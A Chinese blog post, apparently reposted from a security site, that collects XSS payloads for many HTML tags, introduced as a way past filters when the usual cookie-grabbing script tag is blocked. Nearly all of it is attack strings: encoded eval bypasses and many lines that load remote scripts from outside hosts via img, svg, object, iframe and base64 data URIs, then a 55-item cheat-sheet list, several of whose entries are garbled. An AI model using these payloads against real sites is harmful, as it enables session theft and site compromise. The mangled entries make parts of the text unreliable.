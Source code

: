 xss其他标签下的js用法总结大全

binggoogle 2016-07-25 13:24:31  5421  收藏 1
分类专栏： 前端
xss其他标签下的js用法总结大全

https://www.91ri.org/16155.html

前段时间我遇到一个问题，就是说普通的平台获取cookie的语句为

<script src=js地址></script>

实际上我们的测试语句可能为↓

<script>alert("90sec")</script>

也就是说js语句实际上是位于↓
<script></script>的中间。

包括<img>、<input>、<object>、<iframe>、<a></a>、<svg>、标签等情况下的xss构造。

所以我们就需要了解各种标签下的js用法，不然很多时候不可以使用<script>就很麻烦了。

【XSS基本探测pyload】

<script>alert(“xss”)</script>

<script>alert(/xss/)</script>//双引号换成斜杠

<script>alert(‘xss’)</script>//用单引号

<script>alert("xss");</script>//用分号

<script>alert('xss');</script>

<script>alert(/xss/);</script>

<script>alert("jdq") //自动补全

 

<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//用分号

<script>alert("xss");;;;;;;;;;;;;;;;;    ;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//空格+分号

 

<script>alert("xss");;;;;;;;;;;;;;;;;       ;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//换行符

 

<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//回车

单引号被过滤

<script>alert(/jdq/)</script>  //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显

【javascript伪协议】回旋

<ahref="javascript:alert(/test/)">xss</a>

【javascript伪协议】回旋

<ahref="javascript:alert(/test/)">xss</a>

alert被过滤

<img src="1" οnerrοr=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>

【img标记】

<img src=xοnerrοr=s=createElement('script');body.appendChild(s);s.src='http://t.cn/R5UpyOt';>

on事件点击触发

οnclick="alert('xss') //注意要用单引号 双引号不会触发

on事件点击触发

οnclick="alert('xss') //注意要用单引号 双引号不会触发

【利用函数加密】

eval 函数配合编码

<script>eval(“js+16进制加密”)</script>

 

<script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script>

编码要执行的语句↓

Alert(“xss”)

【unicode加密】

<script>eval("unicode加密")</script>

//js unicode加密 解决alert()被过滤

<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>

格式↓

标记eval(“编码”) 结束标记

【String.fromCharCod函数】

String.fromCharCode需要配合eval来实现，

构造

<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>

eval内容加引号相当于正常js语句来执行

不加引号，则是默认作为eval的其他参数语句来执

固定格式→<script>eval(String.fromCharCode编码内容))</script>

【String.fromCharCod函数】

String.fromCharCode需要配合eval来实现，

构造

<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>

eval内容加引号相当于正常js语句来执行

不加引号，则是默认作为eval的其他参数语句来执

固定格式→<script>eval(String.fromCharCode编码内容))</script>

【各标签实战pyload】
——————————————————-xss其他标签下的js用法总结大全––——————————–————————————

 

<imgsrc=javascript:document.write('<scr'+'ipt src=\'http://www.baidu.com/1.txt\'></scr'+'ipt>')></img>  //仅支持IE6

 

 

<imgsrc=javascript:window.s=document.createElement('script');window.s.src='http://lcx.cc/1.js';document.body.appendChild(window.s);></img>  //仅支持IE6

 

 

<imgsrc="pdpdp.gif"></img>  //通杀所有浏览器能触发xss

 

<img src="pdpdp.gif"></img>   //通杀所有浏览器 能触发xss

 

 

<img src=xοnerrοr=document.body.appendChild(document.createElement("scr"+"ipt")).src="http://www.baidu.com">

 

 

<input autofocus="bbbb" />

 

 

<objectdata="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUkd1V0REUz48L3NjcmlwdD4="></object>

 

<iframe width="0px"height="0px"src="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUkd1V0REUz48L3NjcmlwdD4="></iframe>  ie不支持

 

<ahref="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3d3dy5wb29qeC5jb20vMS5qcz48L3NjcmlwdD4=">sb</a>

 

<anchor>、<img>(不执行js)<a>(需点击) <meta>.....

 

<anchorοnlοad=document.body.appendChild(document.createElement("scr"+"ipt")).src="http://www.baidu.com">

 

<svgοnlοad=document.body.appendChild(document.CReateElement("scr"+"ipt")).src="http://www.baidu.com">

 

<svgοnlοad=document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,104,116,116,112,58,47,47,116,46,99,110,47,82,71,117,87,68,68,83,62,60,47,115,99,114,105,112,116,62))>

 

<baa id="1" tabindex=0>

 

 

 

 

(1)普通的XSS JavaScript注入

<SCRIPTSRC=http://3w.org/XSS/xss.js></SCRIPT>

 

(2)IMG标签XSS使用JavaScript命令

<SCRIPTSRC=http://3w.org/XSS/xss.js></SCRIPT>

 

(3)IMG标签无分号无引号

<IMG SRC=javascript:alert(‘XSS’)>

 

(4)IMG标签大小写不敏感

<IMG SRC=JaVaScRiPt:alert(‘XSS’)>

 

(5)HTML编码(必须有分号)

<IMG SRC=javascript:alert(“XSS”)>

 

(6)修正缺陷IMG标签

<IMG“”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

 

(7)formCharCode标签

<IMGSRC=javascript:alert(String.fromCharCode(88,83,83))>

 

(8)UTF-8的Unicode编码

<IMG SRC=jav..省略..S')>

 

(9)7位的UTF-8的Unicode编码是没有分号的

<IMG SRC=jav..省略..S')>

 

(10)十六进制编码也是没有分号

<IMG SRC=\'#\'" /span>

 

(11)嵌入式标签,将Javascript分开

<IMG SRC=\'#\'"ascript:alert(‘XSS’);”>

 

(12)嵌入式编码标签,将Javascript分开

<IMG SRC=\'#\'" ascript:alert(‘XSS’);”>

 

(13)嵌入式换行符

<IMG SRC=\'#\'"ascript:alert(‘XSS’);”>

 

(14)嵌入式回车

<IMG SRC=\'#\'"ascript:alert(‘XSS’);”>

 

(15)嵌入式多行注入JavaScript,这是XSS极端的例子

<IMG SRC=\'#\'" /span>

 

(16)解决限制字符(要求同页面)

<script>z=’document.’</script>

<script>z=z+’write(“‘</script>

<script>z=z+’<script’</script>

<script>z=z+’ src=ht’</script>

<script>z=z+’tp://ww’</script>

<script>z=z+’w.shell’</script>

<script>z=z+’.net/1.’</script>

<script>z=z+’js></sc’</script>

<script>z=z+’ript>”)’</script>

<script>eval_r(z)</script>

 

(17)空字符

perl -e ‘print “<IMGSRC=java\0script:alert(\”XSS\”)>”;’ > out

 

(18)空字符2,空字符在国内基本没效果.因为没有地方可以利用

perl -e ‘print“<SCR\0IPT>alert(\”XSS\”)</SCR\0IPT>”;’ > out

 

(19)Spaces和meta前的IMG标签

<IMG SRC=\'#\'"
  javascript:alert(‘XSS’);”>

 

(20)Non-alpha-non-digit XSS

<SCRIPT/XSS SRC=\'#\'"/span>[url=http://3w.org/XSS/xss.js]http://3w.org/XSS/xss.js[/url]”></SCRIPT>

 

(21)Non-alpha-non-digit XSS to 2

<BODYonload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

 

(22)Non-alpha-non-digit XSS to 3

<SCRIPT/SRC=\'#\'"/span>[url=http://3w.org/XSS/xss.js]http://3w.org/XSS/xss.js[/url]”></SCRIPT>

 

(23)双开括号

<<SCRIPT>alert(“XSS”);//<</SCRIPT>

 

(24)无结束脚本标记(仅火狐等浏览器)

<SCRIPTSRC=http://3w.org/XSS/xss.js?<B>

 

(25)无结束脚本标记2

<SCRIPT SRC=//3w.org/XSS/xss.js>

 

(26)半开的HTML/JavaScriptXSS

<IMG SRC=\'#\'" /span>

 

(27)双开角括号

<iframe src=http://3w.org/XSS.html <

 

(28)无单引号 双引号 分号

<SCRIPT>a=/XSS/

alert(a.source)</SCRIPT>

 

(29)换码过滤的JavaScript

\”;alert(‘XSS’);//

 

(30)结束Title标签

</TITLE><SCRIPT>alert(“XSS”);</SCRIPT>

 

(31)Input Image

<INPUT SRC=\'#\'" /span>

 

(32)BODY Image

<BODYBACKGROUND=”javascript:alert(‘XSS’)”>

 

(33)BODY标签

<BODY(‘XSS’)>

 

(34)IMG Dynsrc

<IMG DYNSRC=\'#\'" /span>

 

(35)IMG Lowsrc

<IMG LOWSRC=\'#\'" /span>

 

(36)BGSOUND

<BGSOUND SRC=\'#\'" /span>

 

(37)STYLE sheet

<LINK REL=”stylesheet”HREF=”javascript:alert(‘XSS’);”>

 

(38)远程样式表

<LINK REL=”stylesheet”HREF=”[url=http://3w.org/xss.css]http://3w.org/xss.css[/url]”>

 

(39)List-style-image(列表式)

<STYLE>li {list-style-image:url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS

 

(40)IMG VBscript

<IMG SRC=\'#\'"/STYLE><UL><LI>XSS

 

(41)META链接url

<META HTTP-EQUIV=”refresh” CONTENT=”0;URL=http://;URL=javascript:alert(‘XSS’);”>

 

(42)Iframe

<IFRAME SRC=\'#\'" /IFRAME>

 

(43)Frame

<FRAMESET><FRAME SRC=\'#\'"/FRAMESET>

 

(44)Table

<TABLEBACKGROUND=”javascript:alert(‘XSS’)”>

 

(45)TD

<TABLE><TDBACKGROUND=”javascript:alert(‘XSS’)”>

 

(46)DIV background-image

<DIV STYLE=”background-image:url(javascript:alert(‘XSS’))”>

 

(47)DIV background-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)

<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>

 

(48)DIV expression

<DIV STYLE=”width: expression_r(alert(‘XSS’));”>

 

(49)STYLE属性分拆表达

<IMGSTYLE=”xss:expression_r(alert(‘XSS’))”>

 

(50)匿名STYLE(组成:开角号和一个字母开头)

<XSSSTYLE=”xss:expression_r(alert(‘XSS’))”>

 

(51)STYLE background-image

<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><ACLASS=XSS></A>

 

(52)IMG STYLE方式

exppression(alert(“XSS”))’>

 

(53)STYLE background

<STYLE><STYLEtype=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>

 

(54)BASE

<BASEHREF=”javascript:alert(‘XSS’);//”>

 

(55)EMBED标签,你可以嵌入FLASH,其中包涵XSS

<EMBED SRC=\'#\'"/span>[flash]http://3w.org/XSS/xss.swf[/flash]” ></EMBED>